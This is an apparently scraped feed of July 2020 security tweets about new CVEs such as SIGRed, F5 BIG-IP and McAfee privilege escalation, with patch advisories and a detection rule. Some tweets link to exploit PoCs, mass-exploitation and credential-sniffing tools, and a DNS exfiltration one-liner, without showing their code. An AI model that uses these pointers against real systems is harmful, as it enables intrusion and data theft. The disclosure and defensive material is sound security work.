<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>414</code></td>
</table></tr>

---

# straight_blast
**https://twitter.com/straight_blast/status/1283466024109527040 _at 2020-07-15 18:18:40_**
<blockquote>
I found some bugs on Cisco SD-WAN vManage:
CVE-2020-3387 (Remote Code Execution) 
CVE-2020-3381 (Directory Traversal) 
CVE-2020-3406 (XSS) 
CVE-2020-3405 (XXE) 
CVE-2020-3437 (Info Disclosure)
CVE-2020-3401 (Path Traversal)
https://t.co/vzsn2ID5aM
</blockquote>

* https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=vManage&title=vManage&last_published=2020%20Jul&sort=-day_sir#~Vulnerabilities

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>43</code></td>
</table></tr>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1283431773137965056 _at 2020-07-15 16:02:34_**
<blockquote>
McAfee Total Protection (MTP) &lt; 16.0.R26 Escalation of Privilege (CVE-2020-7283)

Write-up
https://t.co/NrueV9gD4J

PoC
https://t.co/FsnwbwCUtY

#infosec #pentest #redteam #exploit #lpe
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/
* https://github.com/RedyOpsResearchLabs/CVE-2020-7283-McAfee-Total-Protection-MTP-16.0.R26-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>40</code></td>
</table></tr>

---

# hrbrmstr
**https://twitter.com/hrbrmstr/status/1283400078770700289 _at 2020-07-15 13:56:37_**
<blockquote>
We've updated our CVE-2020-1350 (DNS Server RCE) blog post with some info on tooling coverage, a note abt an uptick in DNS scanning (w/nod to @GreyNoiseIO) &amp; credited info from @GossiTheDog on how to make your Windows Server DNS a bit more stealthy. https://t.co/YeSGxkfbWJ
</blockquote>

* https://blog.rapid7.com/2020/07/14/windows-dns-server-remote-code-execution-vulnerability-cve-2020-1350-what-you-need-to-know/?update=true

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>36</code></td>
</table></tr>

---

# VDIHacker
**https://twitter.com/VDIHacker/status/1283358134464118784 _at 2020-07-15 11:09:57_**
<blockquote>
If you haven’t heard yesterday a Major DNS vulnerability for Windows was found and a patch released. “CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability” its a 10 out of 10 aka very bad. Patch or Mitigate all Windows DNS Servers ASAP! https://t.co/Add2uA3NZv https://t.co/tAaMmnFgTO
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>39</code></td>
</table></tr>

---

# gweeperx
**https://twitter.com/gweeperx/status/1283331032096411653 _at 2020-07-15 09:22:15_**
<blockquote>
CVE-2020-7283:Exploit code and write-up for an Escalation of Privilege affecting McAfee Total Protection (MTP) &lt; 16.0.R26

https://t.co/SCepfWOT0M

#bug #McAfee #0day #exploit #vulnerability #EoP #privesc #RedyOpsLabs #redteam #pentest #cybersecurity #infosec #informationsecurity
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>49</code></td>
</table></tr>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1283330388002246657 _at 2020-07-15 09:19:42_**
<blockquote>
Sigma rule to detect the exploitation of Windows DNS RCE CVE-2020-1350

- a long shot looking for spawned sub processes of dns.exe (requires parent logging &gt; e.g. Sysmon)
- plz report false positives

https://t.co/pzJni5aCUh https://t.co/qi8g6XvqDm
</blockquote>

* https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2020_1350.yml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>275</code></td>
</table></tr>

---

# kramse
**https://twitter.com/kramse/status/1283304086553743367 _at 2020-07-15 07:35:11_**
<blockquote>
Saying CVE-2020-1350 is not important, since DCs are not on the internet, may not be /enough/ to protect it.
If the networks, or parts are using VXLAN insecurely it may be possible to send DNS packets inside.
Slide from my @WEareTROOPERS https://t.co/UNrPOYZQuQ https://t.co/pnA8awjuRI
</blockquote>

* https://github.com/kramse/security-courses/tree/master/presentations/network/vxlan-troopers19

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>18</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283280993097523200 _at 2020-07-15 06:03:25_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive  https://t.co/7Q4Eims9k9  #Pentesting #CVE #Windows #CyberSecurity #Infosec https://t.co/xHNQhBF5rL
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>8</code></td>
</table></tr>

---

# PiotrBania
**https://twitter.com/PiotrBania/status/1283278150840061953 _at 2020-07-15 05:52:07_**
<blockquote>
Some of my recent bugs: Hyper-V RemoteFX vGPU Remote Code Execution Vulnerability (CVE-2020-1032, CVE-2020-1036, CVE-2020-1040, CVE-2020-1041, CVE-2020-1042, CVE-2020-1043) - https://t.co/r9pRu5ssQH   https://t.co/IR14JuSpYp
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/2020-Jul
* https://blog.talosintelligence.com/2020/07/vuln-spotlight-intel-amd-microsoft-july-2020.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>243</code></td>
</table></tr>

---

# nnwakelam
**https://twitter.com/nnwakelam/status/1283178986185490432 _at 2020-07-14 23:18:05_**
<blockquote>
While everyone is talking about the DNS bug that just dropped I want a PoC on CVE-2020-6287. 10.0 CVSS SAP RCE? Sounds delicious.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>103</code></td>
</table></tr>

---

# CyberRaiju
**https://twitter.com/CyberRaiju/status/1283158591843663872 _at 2020-07-14 21:57:02_**
<blockquote>
CVE-2020-1350: Critical wormable RCE vulnerability rated with a CVSS of 10 in Windows DNS Server. You may want to patch this ASAP or implement the mitigation. 

MSRC Blog:
https://t.co/yRclM8eGm5

Advisory:
https://t.co/OEvqWjmhgU

Guidance:
https://t.co/Smj1iQnfPh https://t.co/GdFgYmF7kC
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>35</code></td>
</table></tr>

---

# blueteamblog
**https://twitter.com/blueteamblog/status/1283135082514046977 _at 2020-07-14 20:23:37_**
<blockquote>
This is so, so bad.
CVE-2020-1350 with CVSS of 10 named #SIGRed. Wormable RCE vulnerability in Windows DNS Server affecting all versions of Windows server running the DNS role. https://t.co/xYTzi72hF5

Exploit released already - https://t.co/9qphFRaqBR 

#infosec #cybersecurity
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>74</code></td>
</table></tr>

---

# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1283127822870024192 _at 2020-07-14 19:54:46_**
<blockquote>
One of my MS Office vulnerability was patched in July.

CVE-2020-1458 | Microsoft Office Remote Code Execution Vulnerability
https://t.co/xCeVITvjDT
#infosec
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1458

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>55</code></td>
</table></tr>

---

# ducnt_
**https://twitter.com/ducnt_/status/1283120193405718530 _at 2020-07-14 19:24:27_**
<blockquote>
Just stumbleupon with a RCE PoC of CVE-2020-6287 SAP NetWeaver AS JAVA. Kudos to @Queseguridad with an awesome work 🍻. #bugbountytip https://t.co/K7ACNu8z4B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>46</code></td>
</table></tr>

---

# antoniosanzalc
**https://twitter.com/antoniosanzalc/status/1283118272578236416 _at 2020-07-14 19:16:50_**
<blockquote>
Vuln. crítica en los DNS de Windows, CVE-2020-1350: https://t.co/hKlaHJM02T CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit ... y Game Over. Aplica esta mitigación YA https://t.co/XMryJtYWBc y parchea ASAP
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>93</code></td>
</table></tr>

---

# cherepanov74
**https://twitter.com/cherepanov74/status/1283115324439748608 _at 2020-07-14 19:05:07_**
<blockquote>
RT @_CPResearch_: We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical v…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>813</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# sagitz_
**https://twitter.com/sagitz_/status/1283114958612561921 _at 2020-07-14 19:03:39_**
<blockquote>
CVE-2020-1350: A cool Windows DNS Server vulnerability (2003-&gt;2019) we found at @_CPResearch_
and got patched today #PatchTuesday
https://t.co/OapPwEYPvp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>131</code></td>
</table></tr>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283114016999706624 _at 2020-07-14 18:59:55_**
<blockquote>
We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical vulnerability that can be used to achieve full Domain Administrator privileges.
https://t.co/giebs7WIhp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>806</code></td>
<td>Favorites: <code>1245</code></td>
</table></tr>

---

# omriher
**https://twitter.com/omriher/status/1283113889270509570 _at 2020-07-14 18:59:24_**
<blockquote>
We just disclosed SIGRed (CVE-2020-1350): Critical Vulnerability in all Windows DNS Servers (by @sagitz_).

Bonus: can also be triggered using the browser through a malicious link. #SIGRed
https://t.co/MMnjPwIUAp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>40</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>278</code></td>
<td>Favorites: <code>440</code></td>
</table></tr>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1283107131596722176 _at 2020-07-14 18:32:33_**
<blockquote>
Microsoft has released an update addressing a “wormable” RCE vulnerability, CVE-2020-1350, in Windows DNS Server. Update asap! https://t.co/yjvpIgZbA3 #Cybersecurity #InfoSec
</blockquote>

* https://us-cert.cisa.gov/ncas/current-activity/2020/07/14/microsoft-addresses-wormable-rce-vulnerability-windows-dns-server#Cyber

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>506</code></td>
<td>Favorites: <code>650</code></td>
</table></tr>

---

# jarsnah12
**https://twitter.com/jarsnah12/status/1283099208946462720 _at 2020-07-14 18:01:04_**
<blockquote>
CVE-2020-1350 https://t.co/rAIOfxMSQb
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>690</code></td>
<td>Favorites: <code>2382</code></td>
</table></tr>

---

# filip_woj
**https://twitter.com/filip_woj/status/1283091006070693893 _at 2020-07-14 17:28:29_**
<blockquote>
Microsoft Security Advisory CVE-2020-1147 | .NET Core Remote Code Execution Vulnerability https://t.co/2DbcKiO0Q5
</blockquote>

* https://github.com/dotnet/announcements/issues/159

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---

# coreclrissues
**https://twitter.com/coreclrissues/status/1283089278755639297 _at 2020-07-14 17:21:37_**
<blockquote>
Microsoft Security Advisory CVE-2020-1147 | .NET Core Remote Code Execution Vulnerability
dotnet/runtime #39296 https://t.co/W2Ti9YkMLF
</blockquote>

* https://github.com/dotnet/runtime/issues/39296

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283087717174214664 _at 2020-07-14 17:15:25_**
<blockquote>
Stay tuned for our technical publication regarding #SIGRed (CVE-2020-1350) at 12 (PST) - Critical vulnerability in Windows DNS
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>174</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1283087444015935489 _at 2020-07-14 17:14:19_**
<blockquote>
WARNING 🔥 CVE-2020-1350 (CVSS 10)

A critical 17-year-old 'wormable' RCE #vulnerability affects Windows DNS Servers (2013 to 2019 editions) that could let unauthenticated hackers gain 'Domain Admin' privileges on the targeted servers.

Details — https://t.co/Qoode1dizp

#infosec https://t.co/MWddwPytbT
</blockquote>

* https://thehackernews.com/2020/07/windows-dns-server-hacking.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>59</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>587</code></td>
<td>Favorites: <code>778</code></td>
</table></tr>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1282927157006622720 _at 2020-07-14 06:37:24_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive · GitHub - https://t.co/RPiiGF1kFU
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>70</code></td>
</table></tr>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1282403888658673664 _at 2020-07-12 19:58:07_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 https://t.co/BnyJaPt2Rl
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>72</code></td>
</table></tr>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1282392029008404482 _at 2020-07-12 19:11:00_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 - spoiler: there will be more of this class to be found elsewhere - https://t.co/JXmJEZ2DYp https://t.co/IXNKtVHFWP
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>149</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1282308572144009217 _at 2020-07-12 13:39:22_**
<blockquote>
httpdump : Capture and parse http traffics : https://t.co/3DZb0fvz8c

dnsniff :  a collection of tools for network auditing and penetration testing : https://t.co/ku83C1d358 cc @dugsong 

Netenum : A tool to passively discover active hosts on a network : https://t.co/0FMnJ9iACu
</blockquote>

* https://github.com/hsiafan/httpdump
* https://www.monkey.org/~dugsong/dsniff/
* https://github.com/wintrmvte/Netenum

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>281</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1282286012207468545 _at 2020-07-12 12:09:43_**
<blockquote>
ARMRef : ARM Assembly Reference Manual for iOS, iPadOS, and macOS : https://t.co/EoOIeKA0eB credits @EvilPenguin_
</blockquote>

* https://github.com/evilpenguin/ARMRef

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>121</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1282261016559136770 _at 2020-07-12 10:30:24_**
<blockquote>
RT @ArielKoren_: Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerabi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>214</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# FiloSottile
**https://twitter.com/FiloSottile/status/1282109404318490626 _at 2020-07-12 00:27:57_**
<blockquote>
Currently watching a Zig livestream that involves proper Italian pasta and coffee preparation, and I feel like the Go community is getting put to shame.

https://t.co/SmKi11HtWX
https://t.co/73q03cbqLU
</blockquote>

* https://twitch.tv/kristoff_it
* https://github.com/sponsors/ziglang

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>53</code></td>
</table></tr>

---

# ahakcil
**https://twitter.com/ahakcil/status/1282040119961190402 _at 2020-07-11 19:52:38_**
<blockquote>
Struggling with a blind RCE on windows?

Here is a oneliner to execute a command, and send its output back from 53/udp.

A lot of firewalls allow 53/udp because a lot of stuff depends on DNS.

https://t.co/yXbm9pcLoZ
</blockquote>

* https://gist.github.com/FlameOfIgnis/7a6121e4e75e34aa54cd1b2272a59683

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>257</code></td>
</table></tr>

---

# 0xArielK
**https://twitter.com/0xArielK/status/1281982660152352769 _at 2020-07-11 16:04:18_**
<blockquote>
Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerability is triggered while parsing 3D objects and potentially affects a wide variety of Microsoft products.

https://t.co/jsSOzaVYxI

#RCE #CVE
</blockquote>

* https://www.mimecast.com/blog/2020/07/mimecast-discovers-3d-office-exploiter-a-remote-code-execution-vulnerability-in-microsoft-office/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>206</code></td>
<td>Favorites: <code>447</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1281623377199783937 _at 2020-07-10 16:16:39_**
<blockquote>
RT @RandomDhiraj: A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1281595749294239745 _at 2020-07-10 14:26:52_**
<blockquote>
net-creds : Sniffs sensitive data from interface or pcap : https://t.co/RujAKKFy7h credits @DanHMcInerney https://t.co/AoVYZN5y8J
</blockquote>

* https://github.com/DanMcInerney/net-creds

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>72</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1281580793492500482 _at 2020-07-10 13:27:26_**
<blockquote>
Autosploit : A Fully Automated Framework for Evaluating
the Exploitability of Security Vulnerabilities : https://t.co/TuUzBWJtEJ (pdf) 

AutoSploit : Automated Mass Exploiter : https://t.co/lkvHYsN8xs
</blockquote>

* https://arxiv.org/pdf/2007.00059.pdf
* https://github.com/NullArray/AutoSploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>74</code></td>
</table></tr>

---

# cry__pto
**https://twitter.com/cry__pto/status/1281486114851872768 _at 2020-07-10 07:11:13_**
<blockquote>
Analysis of CVE-2020-13693
https://t.co/ycajeNOqxR
Privilege Escalation in Google Cloud Platform’s OS Login
https://t.co/5uXwaBx4ug
different Approaches For Reconnaissance
https://t.co/dsm20e8wQ4
Attacking CloudGoat 2
https://t.co/uvLwGKRuWS
#bugbountytip #OSINT #PenTest #redteam
</blockquote>

* https://b.ou.is/articles/2020-05/CVE-2020-13693
* https://gitlab.com/gitlab-com/gl-security/gl-redteam/red-team-tech-notes/-/tree/master/oslogin-privesc-june-2020
* https://medium.com/@z0id/different-approaches-of-reconnaissance-bug-bountys-9dcdecb2551e
* https://github.com/appsecco/attacking-cloudgoat2/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>22</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1281483341905059844 _at 2020-07-10 07:00:12_**
<blockquote>
Important — Instead of applying a patch, if you're relying on mitigation provided for F5 BIG-IP RCE #vulnerability (CVE-2020-5902), you're still at risk of getting hacked.

Researchers (@CharlesDardaman , @0xm1rch  @TeamAresSec) discover a bypass.

https://t.co/Q5Cfey1sp6
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</table></tr>

---

# thezdi
**https://twitter.com/thezdi/status/1281248760320974850 _at 2020-07-09 15:28:03_**
<blockquote>
CVE-2020-1300 - Remote code execution via #Windows CAB files. Our colleagues from Trend Micro Research bring all the details about this recently patched bug. Read them at https://t.co/BBogMCZo0r
</blockquote>

* https://bit.ly/2ZXbQjm

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>185</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1281224055513911299 _at 2020-07-09 13:49:53_**
<blockquote>
SNOWCRASH : a polyglot payload generator : https://t.co/v4fisCFdsL https://t.co/HTCdwN39WM
</blockquote>

* https://github.com/wintrmvte/SNOWCRASH

<table><tr>
